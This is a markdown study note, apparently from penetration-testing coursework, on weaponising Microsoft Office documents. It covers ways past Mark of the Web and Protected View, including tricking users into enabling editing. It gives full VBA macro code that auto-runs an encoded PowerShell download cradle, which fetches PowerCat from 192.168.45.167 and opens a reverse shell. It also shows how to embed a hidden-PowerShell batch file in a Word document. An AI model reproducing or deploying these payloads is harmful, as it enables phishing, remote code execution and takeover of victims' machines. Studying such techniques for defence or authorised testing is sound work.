 
# Macros  
Series of commands and instructions that are grouped together to programmatically accomplish a task.  
- Often used to manage dynamic content and link docs w/ external content.  
- Can be written from scratch in Visual Basic for Applications (VBA)  
	- Fully functional scripting language w/ full access to ActiveX objects & the Windows Script Host (similar to JS in HTML Apps)  

# Preparing the Attack

Consider:
	As malicious macros attacks are well-known, email providers and spam filters often filter out MS Office docs by default.
	- Can't simply send the mal-doc as an attachment.
 
To deliver payload & increase chances the target opens the doc, we could use a pretext & provide the doc in another way (like download link)

## Mark of the Web
If MS Office doc is successfully delivered to the target via email or download link
- File is tagged w/ *Mark of the Web* (MOTW)
	- Will open in *Protected View*
		- Disables all editing and mod settings in the doc & blocks execution of macros or embedded objects.
		- When opened, will show a warning w/ the option to *Enable Editing* (disables Protected View)
	- Not added to files on FAT32 formatted devices
	- Possible to avoid by providing it in container formats (7zip, ISO, IMG, etc)

### To bypass
- Get user to click on the *Enable Editing* button
	- Ex: Blur rest of doc and instruct to click to "unlock" it
- Rely on other macro-enabled MS Office programs that lack Protected View
	- Ex: Microsoft Publisher
		- Less frequently installed

Worse, MS implemented an outright blocking of macros that can only be unlocked by checking *Unblock* under file properties.
![[protected_view.png]]


# Leveraging MS Word Macros

Within MS Word (likely similar in Excel)  
- Choose VIEW ribbon > Select Macros  
- Type name for macro > Create  
- Doc must be saved as either **.docm** or **.doc** formats.
	- \*\**Avoid **.docx** format* as it cannot save macros without attaching a containing template.
		- This means that we can run macros within **.docx** files but we can't embed or save the macro in the document (it's not persistent)
- When creating Macro ensure you save in the doc & ***not*** in the templates
![](macro_creation.png)
  
Body of the macro is denoted by keywords _**Sub**_ and _**End Sub**_  
- Sub procedures are very similar to a Function in VBA  
	- Difference is Sub procedures can't be used in expressions as they don't return any values.  
- _**'**_ = Comments  

- Leverage *ActiveX Objects*, which provide access to underlying operating system commands.
	- This can be achieved with **WScript** through the Windows Script Host Shell object.
```vbscript
' Execute the macro automatically
Sub AutoOpen()
  
	MyMacro
  
End Sub

' Execute the macro when a new document is opened
Sub Document_Open()
  
	MyMacro
  
End Sub
  
Sub MyMacro()
  
	CreateObject("Wscript.Shell").Run "powershell"

End Sub
```
	- AutoOpen() & Document_Open() differ slightly, depending on how Microsoft Word and the document were opened.
	- Both cover special cases which the other one doesn't and therefore we use both. 
  
  
Save Macro, save doc, and reopen.    If PowerShell opens immediately, macro worked correctly.
- A security warning requests to Enable Content (& effectively run the macros within)  
-  IRL, if the victim doesn't click the _Enable Content_, the attack will fail. So they'll need to be sufficiently encouraged to do so.  
  
We'll use a base64-encoded PowerShell download cradle (declared as a *String*) to download **PowerCat** and start the reverse shell.
- As VBA has a 255-char limit for literal strings not those stored in variables, so we'll have to split the commands into multiple lines and concatenate them.  
 
Addition to macro (diff Lines 14 & 16):  
```vbscript
Sub AutoOpen()  
  
	MyMacro  
  
End Sub  
  
Sub Document_Open()  
  
	MyMacro  
  
End Sub  
  
	Sub MyMacro()
	'Declare variable to store our PowerShell download cradle and the command to create a reverse shell with PowerCat
	Dim Str As String  
  
	CreateObject("Wscript.Shell").Run Str  
  
End Sub
```


PowerShell cmd to 1: Download powercat and 2: create the reverse shell  
```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167/powercat.ps1');powercat -c 192.168.45.167 -p 4444 -e powershell
```

Encode command.  In Kali, use **pwsh**:
```powershell
└─PS> $TEXT = "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.167/powercat.ps1');powercat -c 192.168.45.167 -p 4444 -e powershell"

└─PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

└─PS> $EncodedText =[Convert]::ToBase64String($Bytes)

└─PS> $EncodedText                                                                                           
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3AC8AcABvAHcAZQByAGMAYQB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQBjACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3ACAALQBwACAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwA
```
  
Using a python script to split up the payload ^:  
```python
str = "powershell.exe -nop -w hidden -e <base64EncodedText>"  
  
n = 50  
  
for i in range(0, len(str), n):  
print "Str = Str + " + '"' + str[i:i+n] + '"'
```

 
Updated macro:  
```vbscript
Sub AutoOpen()  
  
	MyMacro  
  
End Sub  
  
Sub Document_Open()  
  
	MyMacro  
  
End Sub  
  
Sub MyMacro()  
	Dim Str As String  
  
	Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
	 Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
	 Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
	 Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
	 Str = Str + "ALgAxADYAOAAuADQANQAuADEANgA3AC8AcABvAHcAZQByAGMAY"
	 Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
	 Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADEANgA3ACAALQBwA"
	 Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
	 Str = Str + "A"  
  
	CreateObject("Wscript.Shell").Run "Str"  
  
End Sub
```

  

### Object Linking and Embedding

**OLE** allows for abusing MS Office's document-embedding feature.  
  
**DDE** - Dynamic Data Exhange  
- Allows for the ability to execute arbitrary apps from within Office docs.  
*Patched since Dec 2017  
  
_.bat_ files are an older (still fully functional) format - replaced by VB & PS   
  
First we create the batch script:  
	POC will be to launch a cmd prompt:  
```bash
echo START cmd.exe > launch.bat
```

  
Then insert into a doc:  
- Open Word > Create new doc  
- Insert ribbon > Click on object menu
![[doc-object.png]]

- Create from file > Choose script  
	- Check Display as icon  
	- Change icon...  
		- Navigate to a desired binary  
			- Ex: C\:\\Program Files\\Microsoft Office\\root\\Office 16\\EXCEL  
		- Rename icon
![[doc-fromfile.png]]
	- Batch file is then embedded in the Word doc  
	- Save doc  
  
Once the icon is double clicked & the security warning is accepted, the batch file is launched.   
  
For the real exploit, replace the **cmd.exe** with the **msfvenom** payload ^^  
```powershell
START powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBd......
```

Once the batch file is update, you'll need to re-embed it in the doc.  
  



